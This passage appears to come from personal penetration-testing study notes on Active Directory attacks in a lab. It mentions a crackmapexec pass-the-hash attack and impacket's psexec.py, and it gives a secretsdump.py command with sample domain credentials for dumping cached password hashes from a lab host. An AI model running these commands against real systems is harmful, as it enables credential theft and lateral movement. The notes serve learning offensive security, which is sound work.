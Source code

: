 ![](/assets/Images-Notes-01/2022-01-08-00-47-43.png)
_crackmapexec | passthehash attack_

*we can also use impacket tools like `psexec.py` for password / hash attacks.*

---

### Dumping Hashes with secretsdump.py

If we have atleast 1 set of credentials we can try to grab password hashes saved in cache.

```bash
secretsdump.py marvel/fcastle:Password1@10.10.10.99
```
![](/assets/Images-Notes-01/2022-01-08-01-02-32.png)